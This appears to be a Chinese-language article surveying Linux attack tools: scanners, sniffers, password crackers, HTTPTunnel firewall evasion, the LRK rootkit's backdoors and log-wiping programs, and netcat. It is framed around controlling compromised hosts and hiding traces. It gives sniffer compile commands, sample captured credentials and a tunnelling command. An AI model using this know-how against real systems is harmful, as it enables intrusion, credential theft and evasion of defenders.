

图2


图3


图4



图5



图6

除了以上这些扫描，Nmap 还提供了很多选项，这是很多 Linux 攻击者的必备法宝之一，通过这个软件，我们就可以对系统了如指掌，从而为攻击打下良好的基础。

#### （2）Nessus

软件下载地址：http://www.Nessus.org/  
插件下载地址：http://cgi.nessus.org/plugins/dump.php3?viewby=family

Nessus 是一款功能强大的远程安全扫描器，它具有强大的报告输出能力，可以产生 HTML、XML、LaTeX 和 ASCII 文本等格式的安全报告，并能为每个安全问题提出建议。软件系统为 client/server 模式，服务器端负责进行安全检查，客户端用来配置管理服务器端。在服务端还采用了 plug-in 的体系，允许用户加入执行特定功能的插件，可以进行更快速和更复杂的安全检查。除了插件外，Nessus 还为用户提供了描述攻击类型的脚本语言，来进行附加的安全测试。

软件下载后，解压并完成安装。安装完毕，确认在 /etc/ld.so.conf 文件加入已安装的库文件路径 /usr/local/lib。如果没有，只需在该文件中加入这个路径，然后执行 ldconfig，这样 Nessus 在运行时就可以找到运行库了。Nessus 的配置文件为 Nessusd.conf，位于 /usr/local/etc/Nessus/ 目录下。一般情况下，不建议改动其中的内容。注意，使用时要创建一个 nessusd 账号，以便将来登录扫描时使用。完成上面的准备工作后，以 ROOT 用户的身份用下面的命令启动服务端 Nessusd。

在客户端，用户可以指定运行 Nessus 服务的机器、使用的端口扫描器、测试的内容及测试的 IP 地址范围。Nessus 本身是工作在多线程基础上的，所以用户还可以设置系统同时工作的线程数，这样用户在远端就可以设置 Nessus 的工作配置了。设置完毕，点击 Start 就可以开始进行扫描。当扫描结束后，会生成报表，窗口左边列出了所有被扫描的主机，只要用鼠标点击主机名称，在窗口右边就列出了经扫描发现的该主机的安全漏洞。再单击安全漏洞的小图标，会列出该问题的严重等级、问题的产生原因及解决方法。

#### （3）p0f

软件下载地址：http://freshmeat.net/projects/p0f/

p0f 对于网络攻击非常有用，它利用 SYN 数据包实现操作系统被动检测技术，能够正确地识别目标系统类型。和其他扫描软件不同，它不向目标系统发送任何数据，只是被动地接受来自目标系统的数据并进行分析。因此，该软件的一个很大的优点是几乎无法被检测到，而且 p0f 是专门的系统识别工具，其指纹数据库非常详尽，更新也比较快，特别适合于安装在网关中。软件下载后，执行如下命令编译并安装 p0f：

```bash
# tar zxvf p0f-1.8.2.tgz
# make && make install
```

p0f 的使用非常简单，使用如下命令可以在系统启动时自动启动 p0f 进行系统识别：

```bash
# cp p0f.init /etc/init.d/p0f
# chkconfig p0f on
```

然后每隔一段时间对 p0f 的日志进行分析即可。为了便于使用，p0f 软件包提供了一个简单的分析脚本 p0frep，通过它，攻击者可以很方便地找到运行某类系统的远程主机地址。p0f 还可以检测如下内容：防火墙的存在或伪装、到远程系统的距离以及它启动的时间、其他网络连接以及 ISP。

#### （4）ISS

软件下载地址：http://www.iss.net/

ISS Internet Scanner 是全球网络安全市场的顶尖产品，通过对网络安全弱点全面和自主地检测与分析并检查它们的弱点，将风险分为高、中、低 3 个等级，并且可以生成大范围的有意义的报表。现在，这个软件的收费版本提供了更多的攻击方式，并逐渐朝着商业化的方向发展。

#### （5）Whisker

软件下载地址：http://www.wiretrip.net/rfp/p/doc.asp/d21.htm

Whisker 是一款非常好的 HTTP 服务器缺陷扫描软件，能扫描出大量的已知安全漏洞，特别是那些危险的 CGI 漏洞。它使用 Perl 编写程序库，我们可以通过它创建自己的 HTTP 扫描器。

#### （6）Nikto

软件下载地址：http://www.cirt.net/code/nikto.shtml

Nikto 是一款能对 Web 服务器多种安全项目进行测试的扫描软件，能在 200 多种服务器上扫描出 2000 多种有潜在危险的文件、CGI 及其他问题。它也使用 Whisker 库，但通常比 Whisker 更新得更为频繁。

#### （7）XProbe

软件下载地址：http://xprobe.sourceforge.net/

XProbe 是一款主动操作系统指纹识别工具，它可以测定远程主机操作系统的类型。XProbe 依靠与一个签名数据库的模糊匹配以及合理的推测来确定远程操作系统的类型。

利用 ICMP 协议进行操作系统指纹识别是它的独到之处。使用时，它假设某个端口没有被使用，会向目标主机的较高端口发送 UDP 包，目标主机就会回应 ICMP 包，然后 XProbe 会发送其他的包来分辨目标主机系统。有了这个软件，判断对方的操作系统就很容易了。

## 轮番上阵：攻击软件大搜捕

现在，大量的网络服务器开始使用 Linux 操作系统，Linux 服务器的安全性也开始受到关注。对 Linux 服务器攻击的定义是：攻击是一种旨在妨碍、损害、削弱、破坏 Linux 服务器安全的未授权行为。攻击的范围可以从服务拒绝直至完全危害和破坏 Linux 服务器。对 Linux 服务器攻击有许多种类，从攻击深度的角度说明，我们可以把攻击分为 4 级：拒绝服务攻击（DoS）、本地用户获取了非授权文件的读写权限、远程用户获得特权文件的读写权限、远程用户获得根权限。下面，我们将选取一些有针对性的经典工具一一加以说明。

## 1．溢出

Linux 系统中最常见的缺陷就是缓冲区溢出……作为开源系统，Linux 系统中的代码检查就显得十分重要。对于攻击者和管理员来说，谁首先重视它，就在一定程度上取得了主动权。

- 1. **Lint**  
  软件下载地址：http://clint.cs.virginia.edu/  
  Lint 能够检查部分错误列表：可能的空指针、释放后使用、赋值次序问题、拼写错误等。可执行一般性检查、错误检查和代码分析。文中提到 PC-lint 与 Splint（原 LCLint）等实现。  

  运行 Lint 时，可通过配置选项控制输出。文中示例通过注释识别返回 NULL 指针的函数。

```c
/*@null@*/ void *test(void)
{
    /* a function that returns NULL */
    return NULL;
}
```

这样做有两个目的：防止 Splint 为返回 NULL 指针的函数告警；保证 Splint 检查任何调用该函数的代码中使用该函数返回指针是否有效。

- 2. **SPIKE**  
  软件下载地址：http://sourceforge.net/projects/spike  
  SPIKE 是 immunitysec 公司 Dave Aitel 编写的黑盒安全测试工具，提供多种构造函数（如 `s_binary`、`s_string`、`s_unistring`），可构造异常输入测试程序鲁棒性，并支持常见协议（如 SUN RPC、MS RPC）。

- 3. **Flawfinder**  
  软件下载地址：http://www.dwheeler.com/flawfinder/  
  Flawfinder 是 Python 编写的 C/C++ 程序安全审核工具，通过搜索检测源码中的潜在漏洞，可生成 HTML 报告。

## 2．嗅探器：Linux 上的“狗鼻子”

Sniffer 是一种常用的数据收集方法，几乎能得到以太网上的传输数据包，可能包含账号口令、商用机密等。攻击者入侵后常植入嗅探器以捕捉数据流。Linux 下有很多此类工具。

- 1. **TCPDump**  
  软件下载地址：http://www.tcpdump.org/  
  TCPDump 是专业网络管理工具，也常被用于网络攻击场景。可按规则显示数据包，用于故障排查与网络监测。支持 RPM 或源码安装。

```bash
tcpdump [-adeflnNOpqStvx] [-c 数量] [-F 文件名] [-i 网络接口] [-r 文件名] [-s snaplen] [-T 类型] [-w 文件名] [表达式]
```

参数说明包括：`-a` 地址转名称，`-d` 以可读形式输出匹配信息，`-e` 打印链路层头部，`-c` 指定接收包数量后停止，`-F` 从文件读取表达式，`-i` 指定监听接口，`-r` 从文件读取包，`-w` 将包写入文件等；`-T` 表示将监听到的包直接解释为指定类型的报文，常见类型有远程过程调用和 SNMP 简单网络管理协议。

TCPDump 的表达式是一个正则表达式，TCPDump 利用它作为过滤报文的条件。如果一个报文满足表达式条件，则这个报文将会被捕获。表达式中常见关键字包括 `host`、`net`、`port`，方向关键字 `src`、`dst`、`src or dst`，协议关键字 `fddi`、`IP`、`ARP`、`RARP`、`TCP`、`UDP`，以及 `gateway`、`broadcast`、`less`、`greater` 等，并可使用逻辑运算组合条件。

```bash
tcpdump host 210.27.48.1
```

想要获取主机 210.27.48.1 除了和主机 210.27.48.2 之外所有主机通信的 IP 包，使用如下命令：

```bash
tcpdump ip host 210.27.48.1 and ! 210.27.48.2
```

如果想要获取主机 210.27.48.1 接收或发出的 Telnet 包，可以使用如下命令：

```bash
tcpdump tcp port 23 host 210.27.48.1
```

下面介绍几种典型的 TCPDump 命令输出。比如：`tcpdump -e -e host ice`。其中 ice 是 Linux 主机，h219 是 Solaris 工作站。示例输出如下：

```text
21:50:12.847509 eth0 < 8:0:20:79:5b:46 2E:19:24:28:AF:1A ip 60: h219.33357 > ice.telnet 0:0(0) ack 22535 win 8760
```

分析：21:50:12 是时间，847509 是 ID，`eth0 <` 表示从网卡接收，`eth0 >` 表示发送；`8:0:20:79:5b:46` 为源 MAC，`2E:19:24:28:AF:1A` 为目的 MAC；`ip` 表示 IP 包；`h219.33357 > ice.telnet` 表示端口方向；`ack 22535` 为确认号，`win 8760` 为窗口大小。

再比如使用如下命令：

```bash
tcpdump arp
```

得到的输出结果是：

```text
22:32:42.802509 eth0 > arp who-has route tell ice (2E:19:24:28:AF:1A)
22:32:42.802902 eth0 < arp reply route is-at 0:90:27:12:10:66 (2E:19:24:28:AF:1A)
```

分析：22:32:42 是时间戳，802509 是 ID，`eth0 >` 表示主机发出数据包。`arp` 表示 ARP 请求包，`who-has route tell ice` 表示主机 ICE 请求主机 ROUTE 的 MAC 地址，`2E:19:24:28:AF:1A` 是主机 ICE 的 MAC 地址。软件还可分析 UDP 等数据包。

- 2. **Hunt**  
  软件下载地址：`http://lin.fsid.cvut.cz/~kra/index.html#hunt`。Hunt 具有直观的命令追踪和会话录制功能，压缩包下载后先解压，运行后启动菜单界面如下：



根据输入提示，hunt 记录连接并输出源/目的信息。其输出直观，易于阅读；还支持指定关注连接、仅记录特定连接，并可持续跟踪活动会话。

- 3. **Linsniffer**  
  软件下载地址：`http://www.mecworks.com/software/`。Linsniffer 是简单实用的嗅探器，主要功能是捕捉用户名和密码。下载后使用下面命令编译并运行：

```bash
gcc linsniffer.c -o linsniffer
./linsniffer
```

启动后，Linsniffer 创建空文件 `cp.log` 存储结果。示例中创建用户 `cndes`（密码 `123456`）登录 Linux 服务器并执行常见操作，嗅探结果如下：

```text
gnss => linux.test.net [21]
USER cndes
PASS 123456
SYST
PORT 172,16,0,1,4,192
LIST -al
PORT 172,16,0,1,4,193
LIST
PORT 172,16,0,1,4,194
```



其输出内容十分直观，我们可以分析如下。首先，它记录到 Linux 主机的 FTP 连接 `gnss => linux.test.net [21]`，然后 Linsniffer 捕获了用户名和密码，最后 Linsniffer 记录了 cndes 使用的每一个命令。输出结果非常清楚，非常适合窃听密码及记录常见活动。不过，这个软件不太适合进行更加复杂的分析。

- 4. **Linux-sniff**  
  软件下载地址：http://www.zonelab.org/files/52/linux-sniff.c

Linux-sniffer 提供相对更复杂的探测结果。首先，使用如下命令编译 Linux-sniffer：

```bash
gcc linux_sniffer.c -o linuxsniff
```

下面是被 Linux-sniffer 记录的一次 Telnet 会话过程：



- 5. **Ethereal**  
  软件下载：http://www.ethereal.com/。Ethereal 是一款免费的网络协议分析程序，支持 UNIX 和 Windows。借助这个程序，我们可以直接从网络上抓取数据进行分析，也可以对其他嗅探器抓取的数据进行分析，查看每一个数据包的摘要和详细信息。Ethereal 有多种强大的特征，如支持几乎所有的协议、丰富的过滤语言、易于查看 TCP 会话经重构后的数据流等。

- 6. **Ettercap**  
  软件下载地址：http://ettercap.sourceforge.net/

Ettercap 是一款局域网环境下的网络监视、拦截和记录工具，支持多种主动或被动的协议分析，有数据插入、过滤、保持连接同步等功能，还有一个能支持多种嗅探模式的套件，能够检查网络环境是否是交换局域网，并且能使用主动或被动的操作系统指纹识别技术，让本地攻击者充分了解当前局域网的情况。

- 7. **Dsniff**  
  软件下载地址：http://naughty.monkey.org/~dugsong/dsniff/

DSniff 是由 Dug Song 开发的一个网络审计、测试和嗅探软件套件，其中 dsniff、filesnarf、mailsnarf、msgsnarf、urlsnarf 和 WEBspy 可以用于监视网络上我们感兴趣的数据，如口令、e-mail、文件等。arpspoof、dnsspoof 和 macof 则可以很容易地截取到攻击者通常难以获取的网络信息，如二层交换数据。

- 8. **sniffit**  
  软件下载地址：http://reptile.rug.ac.be/~coder/sniffit/sniffit.html

sniffit 是一个 TCP、IP、ICMP 协议数据报监听器，它能够给出这些协议数据报的详细技术信息及符合监听条件的数据报的各种不同格式。sniffit 可以进行方便的配置实现对接入的数据报进行过滤，而配置文件允许非常确定地指定需要处理的数据报。缺省情况下，sniffit 可以处理以太和 PPP 设备，也可以用在其他设备上。

由于 Linux 系统下嗅探器的优秀功能和强大的杀伤力，因此新的软件层出不穷，而各个优秀软件的改进版本或增强版也不断涌现，读者朋友可以在实际使用中多多收集。

## 3．入侵检测及口令破解

#### （1）Fragroute

软件下载地址：http://www.monkey.org/~dugsong/fragroute/

这个软件和 DSniff 出自一家，这个工具开发的本意是测试入侵检测系统、防火墙、基本的 TCP/IP 栈的行为，因此它是一个能够破坏入侵检测系统的强大工具。此外，它还能够截取、修改和重写向外发送的报文，实现了大部分的 IDS 攻击功能。Fragroute 有一个简单的规则设置语言，通过它可以实现延迟、复制、丢弃、碎片、重叠、打印、重排、分割、源路由或其他一些向目标主机发送数据包的攻击。

#### （2）Crack

Crack 是破解软件中的开山鼻祖，破解 UNIX 口令的著名工具，现在已经成为了检查网络口令弱点的工业标准。它由 Alec D.E. Muffett 编写，工作原理十分简单。我们知道加密口令是不会被解开的，这是因为加密算法是不可逆的……所以一般的口令入侵是通过生成口令进行加密去匹配原口令密码，或直接从网上截获明文口令。Crack 程序中包含了几个很大的字典库，进行解破时它会按照一定的规则将字词进行组合，然后对之进行加密，再与要解破的加密口令匹配。在使用中，如果口令文件很小，时间和资源都不成问题，但是如果口令文件比较大，则要花费很长的时间和耗费相当多的资源。

#### （3）John the Ripper

软件下载地址：http://www.openwall.com/john/

John the Ripper 是一个十分强大、灵活、快速的多平台哈希口令破解器，它设计的主要目的是用于检查 UNIX 系统的弱口令，支持几乎所有 UNIX 平台上经 crypt 函数加密后的口令哈希类型，也支持 Kerberos、AFS 和 Windows NT/2000/XP LM 哈希等。

## 控制肉鸡于股掌之间

攻入 Linux 系统后，很多入侵者往往就开始得意忘形了，其实这是很低级的做法。俗话说攻城难，守城更难，要想很好地控制肉鸡，还得需要一些经典工具。

### 1. 后门和远程控制工具

#### （1）HTTPTunnel

软件下载地址：http://www.http-tunnel.com/htrol/

Tunnel 的意思是隧道，通常 HTTPTunnel 被称之为 HTTP 暗道。它的原理就是将数据伪装成 HTTP 的数据形式来穿过防火墙，实际上它是在 HTTP 请求中创建了一个双向的虚拟数据连接来穿透防火墙。说得简单点，就是在防火墙两边都设立一个转换程序，将原来需要发送或接受的数据包封装成 HTTP 请求的格式骗过防火墙，所以它不需要别的代理服务器而直接穿透防火墙。

HTTPTunnel 包括两个程序 htc 和 hts，其中 htc 是客户端，hts 是服务器端。我们现在来看如何使用它们。

- 在本地机器上启动 HTTPTunnel 客户端，用 netstat 看一下本机现在开放的端口，会发现 8888 端口已在侦听。
- 在对方机器上启动 HTTPTunnel 的服务器端，并执行命令 `hts -f localhost:21 80`，即把本机 21 端口发出的数据通过 80 端口中转，同时开放 80 端口作为侦听端口。
- 在本地机器上用 FTP 连接本机的 8888 端口，FTP 数据会被 htc 伪装成 HTTP 数据包后发出，从而穿过防火墙。

在防火墙看来，这都是正常数据，相当于欺骗了防火墙。

需要说明的是，这一招的使用需要其他机器的配合，也就是说要在其他的机器上启动一个 hts，把它所提供的服务（如 FTP 等）重定向到防火墙所允许的 80 端口上，这样才可以成功绕过防火墙。即使对方机器原先就有 WWW 服务在 80 端口侦听，也不会冲突；这也是 HTTPTunnel 的优点之一。

#### （2）Tcp_wrapper

软件下载地址：ftp://ftp.porcupine.org/pub/security/tcp_wrappers_7.6.tar.gz

Tcp_wrapper 是 Wietse Venema 开发的一个免费软件。它的诞生有个小故事：作者在大学服务器屡屡遭到外来黑客侵入，于是设计了一个软件，能够截获发起 finger 请求的 IP、用户名等资料。此后 Tcp_wrapper 逐渐成为一种标准安全工具，通过它管理员实现了对 inetd 提供的各种服务进行监控和过滤。

Tcp_wrapper 编译安装成功后，会生成一个 tcpd 程序。它可以在 inetd.conf 中取代 in.telnetd 的位置，每当有 telnet 连接请求时先读取访问控制文件；符合要求则转给真正的 in.telnetd，不符合则拒绝。访问控制主要依靠 `hosts.allow` 和 `hosts.deny` 两个文件实现。若编辑 `/etc/syslog.conf` 加入日志记录功能：

```bash
# tcp_wrapper log
local3.info    /var/log/tcplog
```

编辑结束后保存文件，在 `/var/log` 下会生成 `tcplog`。注意该文件读写权限应仅限 ROOT。然后 `ps -ef | grep syslogd` 找到进程号，`kill -HUP` 重启 syslogd 使改动生效。以下是日志样例：

```text
Jul 31 22:00:52 www.test.org in.telnetd[4365]: connect from 10.68.32.1
Jul 31 22:02:10 www.test.org in.telnetd[4389]: connect from 10.68.32.5
Jul 31 22:04:58 www.test.org in.ftpd[4429]: connect from 10.68.32.3
Aug  2 02:11:07 www.test.org in.rshd[3660]: connect from 10.68.32.5
Aug  2 02:11:07 www.test.org in.rlogind[3659]: connect from 10.68.32.1
```

从上面我们可以看到，在安装了 Tcp_wrapper 的主机上，系统的每一次连接，Tcp_wrapper 都做了记录，它的内容包括时间、服务、状态、IP 等，这对攻击具有很大的参考价值，不过一定要记得清除日志哦。

#### （3）RootKit 工具：LRK

软件下载地址：http://packetstormsecurity.org/

RootKit 出现于 20 世纪 90 年代初，它是攻击者用来隐藏自己的踪迹和保留 ROOT 访问权限的工具。通常，攻击者通过远程攻击或者密码猜测获得系统访问权限，接着在侵入主机中安装 RootKit，然后通过后门检查系统是否有其他用户登录；如果只有自己，攻击者就开始清理日志中的有关信息。通过 RootKit 的嗅探器获得其他系统的用户和密码之后，攻击者会利用这些信息侵入其他系统。

如果攻击者能够正确地安装 RootKit 并合理地清理日志文件，系统管理员就会很难察觉系统已经被侵入。系统恢复和清理过程中，很多常用命令（如 ps、df、ls）已经不可信。某些 RootKit 中带有 FIX 程序，可在安装前先做系统二进制快照，再以伪造时间戳（atime/ctime/mtime）、日期、权限、属主和属组等方式替换程序，从而降低被发现概率。

下面介绍一个典型的 Linux RootKit 版本。Linux RootKit 6 是开源 RootKit，经过多年发展，功能越来越完善，包含大量工具。

首先是隐藏入侵者行踪的程序。作者编写了许多系统命令替代程序，通过替代原有命令来隐藏入侵者行踪。这些程序包括：

| 程序 | 作用 |
|---|---|
| ls, find, du | 隐藏入侵者文件与目录，支持通过特定环境变量或参数控制显示。 |
| ps, top, pidof | 隐藏与入侵者相关进程。 |
| netstat | 隐藏与入侵者 IP 或端口有关的网络连接信息。 |
| killall | 避免杀死被隐藏的进程。 |
| ifconfig | 在网卡混杂模式下隐藏 PROMISC 标记。 |
| crontab | 隐藏攻击者相关 crontab 条目。 |
| tcpd | 伪造/隐藏某些连接记录。 |
| syslogd | 过滤日志中的某些连接信息。 |

其次是后门程序。木马程序可以为本地用户提供后门，网络监控程序可为远程用户提供 inetd、rsh、ssh 等后门服务。随着版本升级，Linux RootKit IV 功能更强，特征更丰富，一般包括如下网络服务程序：

| 程序 | 作用 |
|---|---|
| chfn | 本地提权后门，输入 RootKit 密码可提升至 ROOT。 |
| chsh | 本地提权后门，输入 RootKit 密码可提升至 ROOT。 |
| passwd | 与上述类似，可通过后门密码提权。 |
| login | 允许任意账户配合 RootKit 密码登录，并可抑制历史记录。 |
| inetd | 将修改后的 inetd 作为后门服务入口。 |
| rshd | 提供远程 shell 后门服务。 |
| sshd | 提供 SSH 后门服务。 |

再就是工具程序。所有不属于以上类型的程序都可归入此类，它们实现日志清理、报文嗅探、远程 shell 端口绑定等功能，具体包括：

| 程序 | 作用 |
|---|---|
| fix | 文件属性伪造程序。 |
| linsniffer | 报文嗅探器程序。 |
| sniffchk | 检查系统中是否存在嗅探器进程。 |
| wted | wtmp/utmp 日志编辑程序。 |
| z2 | utmp/wtmp/lastlog 日志清理工具。 |
| bindshell | 在指定端口绑定 shell（默认常见为 12497）供远程连接。 |

### （4）netcat

软件下载地址：http://www.atstake.com/research/tools/network_utilities/

这是一个简单而有用的工具，能够通过 TCP 或 UDP 协议的网络连接读写数据。它可被设计为稳定的后门工具，便于被其他程序和脚本驱动；同时也是功能强大的网络调试与探测工具，能够建立多种类型网络连接。

### 2. 不留下蛛丝马迹：日志工具

对于高明的攻击者来说，进入系统后还应充分了解自己的“蛛丝马迹”并清除这些痕迹，自然就要了解一些日志工具了。

#### （1）Logcheck

软件下载地址：http://www.psionic.com/abacus/logcheck/

